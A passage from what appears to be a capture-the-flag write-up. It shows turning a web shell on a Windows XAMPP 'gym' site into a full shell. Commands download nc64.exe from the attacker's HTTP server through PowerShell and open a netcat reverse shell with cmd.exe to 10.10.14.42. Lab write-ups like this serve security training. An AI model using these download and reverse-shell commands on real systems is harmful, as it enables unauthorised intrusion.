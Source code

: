 We got a web shell but we still don't have OS shell.<br>
Try to upload `nc64.exe` using Powershell after started local HTTP server that hosts [nc64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------).
#### On the localhost
```
root@kali:~# ls | grep nc64
nc64.exe

root@kali:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...

```

#### On the target machine
```
C:\xampp\htdocs\gym\upload> powershell Invoke-WebRequest -Uri http://10.10.14.42:8000/nc64.exe -OutFile C:\xampp\htdocs\gym\upload\nc64.exe
�PNG
�

C:\xampp\htdocs\gym\upload> dir
�PNG
�
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

28/12/2020  00:22    <DIR>          .
28/12/2020  00:22    <DIR>          ..
28/12/2020  00:10                53 kamehameha.php
28/12/2020  00:22            45,272 nc64.exe
               2 File(s)         45,325 bytes
               2 Dir(s)   9,841,668,096 bytes free

```

Launch a local netcat listener and execute `nc64.exe`.<br>
Now we got a reverse shell as `shaun`.

#### On the localhost
```
root@kali:~# nc -nlvp 4443
Listening on 0.0.0.0 4443

```

#### On the target machine
```
C:\xampp\htdocs\gym\upload> nc64.exe 10.10.14.42 4443 -e cmd.exe
```
